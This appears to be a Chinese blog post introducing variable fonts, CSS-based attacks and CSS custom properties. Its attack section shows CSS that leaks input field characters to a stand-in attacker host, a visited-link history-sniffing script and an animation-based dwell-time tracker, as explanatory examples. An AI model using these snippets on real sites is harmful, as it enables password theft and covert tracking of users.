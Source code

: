```yaml
---
title: 🎨 有关 CSS 的一些极有趣的东西
description: 本文介绍了几种CSS中有趣的内容如变量字体、CSS攻击手段以及CSS新特性CSS变量。
---
```


## 灵活字体

> The future is variable, though the future is in the variable

灵活字体（Variable fonts）是一种包含字体元信息如字宽、字重（甚至自定义形变）的字体的字体方案。主要通过使用 CSS `font-variation-settings` 属性配置变形轴，来达到使字体形变的效果，如：

```css
h2 {
  font-size: 64px;
  font-variation-settings: 'wght' 375;
}

```

一张图展示其迷人之处：

![Variable fonts](https://mgear-image.oss-cn-shanghai.aliyuncs.com/image/css-interesting/2019-11-21-02-03-38.gif)

这里有一个展示其强大排版能力的示例页面：

<p class="codepen" data-height="265" data-theme-id="dark" data-default-tab="result" data-user="jpamental" data-slug-hash="wvwgGLK" style="height: 265px; box-sizing: border-box; display: flex; align-items: center; justify-content: center; border: 2px solid; margin: 1em 0; padding: 1em;" data-pen-title="Layout variations, part deux">
  <span>See the Pen <a rel="nofollow" href="https://codepen.io/jpamental/pen/wvwgGLK">
  Layout variations, part deux</a> by Jason Pamental (<a rel="nofollow" href="https://codepen.io/jpamental">@jpamental</a>)
  on <a rel="nofollow" href="https://codepen.io">CodePen</a>.</span>
</p>
<script async src="https://static.codepen.io/assets/embed/ei.js"></script>

啊，所以说要是不会设计还是做不出漂亮页面（狗子脸）

## CSS 攻击

也许大部分玩家都了解或熟悉 CSRF、XSS 之类的攻击方式及防御方式，不过你听说过这些使用 CSS 进行攻击的方法么？

### 输入检测

CSS Exfil 漏洞攻击意味着攻击者可以使用选择器确定你在页面输入的按键再通过 CSS 请求将其记录，如下代码：

```css
input[value^=a]{
    background-image: url(http://hack.com/a);
}
input[value^=b]{
    background-image: url(http://hack.com/b);
}
/* ... */
input[value^=z]{
    background-image: url(http://hack.com/9);
}
```

当你在输入框中输入字母的同时，浏览器将自动向攻击者指定的地址发送请求，你的字母输入顺序也就随之被记录下来了，结合 CSS 中其它特征，通过 CSS Exfil 攻击可以直接推断出一些输入简单的密码，凭借分析，也能推测出更加复杂的密码。

这里有一个测试网址可以用以重现与玩耍：[CSS Exfil 攻击测试](http://eaea.sirdarckcat.net/cssar/v2/)

### 历史记录检测

现在我们丢弃刚才提到的 CSS 选择器，转而使用 CSS 和浏览器打交道中所用到的其它东西，比如说：我们都知道在浏览器中点击过某个链接后，那个链接就会变色——对的，没错，问题就在这儿——通过向页面插入大量超链接，可以通过标签的颜色就能判断你有没有浏览过这些链接，从而绕过浏览器限制。代码类似以下：

```js
const link = document.createElement('a')
link.href = 'www.baidu.com'
document.body.appendChild(link)
const color = document.defaultView.getComputedStyle(link, null).getPropertyValue('color')

const isView = color === 'rgb(0, 0, 255)'
```

想看源代码及或寻找更深入的讨论，请点这儿：[i-know-where-youve-been](https://blog.jeremiahgrossman.com/2006/08/i-know-where-youve-been.html)

### 用户轨迹追踪

了解过 CSS Exfil 后，我们大概都能想到通过纯 CSS 代码来追踪用户鼠标点击、甚至是用户鼠标轨迹的方案，但是关于用户在页面的停留时长，你有没有思路呢？

以下是一种可能的解决方案：

```css
@keyframes time-count {
  0% {
    background-image: url('track.php?duration=1s');
  }
  1% {
    background-image: url('track.php?duration=2s');
  }
  /* ... */
  100% {
    background-image: url('track.php?duration=100s');
  }
}
#duration:hover::after {
  animation-name: time-count;
  animation-duration: 100s;
}
```

### 其它攻击手段

这里有一个不全的清单：

- [Side-channel Attack](https://github.com/evonide/misc)
- [Text Reader](https://bugs.chromium.org/p/chromium/issues/detail?id=543078)
- [Scrollbar Attack](https://github.com/cgvwzq/css-scrollbar-attack)

欢迎各位在评论区补充（在此先谢过大佬们）

## CSS 变量

CSS 变量（官方叫做 Custom Properties，即自定义属性）是一个意义于作用同样强大的东西，它给 CSS 带来了原生层面意义上的代码模块化。我们可以通过浏览器 API 与 JavaScript 进行交互，使得其功效进一步扩大，同时提高 CSS 的可读性及维护性。通过给 CSS 变量赋任意有意义的值，并交由 calc 函数计算，可以产生具有可读性的组合值。比如下面这个例子：

```css
.my-component {
  --theme-color: red;
  --card-width: 30px;
}
.my-component .title {
  color: var(--my-component-theme-color);
}
.my-component .card-container {
  width: calc(var(--my-component-card-width) * 3);
  border: solid 1px var(--my-component-theme-color);
}
```

我们给组件（my-component）定义了主题色及卡片宽度两个变量，这两个变量可以在作用范围内任意使用及被改造。这两个变量也意味着组件的样式向外部暴露了两个可供修改的入口。一般而言，我们可以使用这两种方法继续扩展代码，以达到修改变量的目的：

```html
<link rel="stylesheet" href="my-component.css" />
<style>
  .my-component {
    --theme-color: gray;
  }
</style>
```

```JavaScript
const $con = document.querySelector('.my-component')
$con.style.setProperty('--theme-color', 'gray')
```

这里有一个能展示 CSS 变量超能力的极具吸引力的例子：

<p class="codepen" data-height="265" data-theme-id="dark" data-default-tab="css,result" data-user="danwilson" data-slug-hash="BRdJVZ" style="height: 265px; box-sizing: border-box; display: flex; align-items: center; justify-content: center; border: 2px solid; margin: 1em 0; padding: 1em;" data-pen-title="Single Div Accordion (Animated with CSS Variables)">
  <span>See the Pen <a rel="nofollow" href="https://codepen.io/danwilson/pen/BRdJVZ">
  Single Div Accordion (Animated with CSS Variables)</a> by Dan Wilson (<a rel="nofollow" href="https://codepen.io/danwilson">@danwilson</a>)
  on <a rel="nofollow" href="https://codepen.io">CodePen</a>.</span>
</p>
<script async src="https://static.codepen.io/assets/embed/ei.js"></script>

不知道你酸了没有，反正我是酸了。

## 阅读更多

希望本文能对你有所帮助，如果文中出现了不流畅或理解错误的地方也麻烦各位评论指出。<JJ><p>若有任何疑问，或想深入探讨，可以给我发邮件：dGFuZ25hZEBxcS5jb20=</p></JJ>
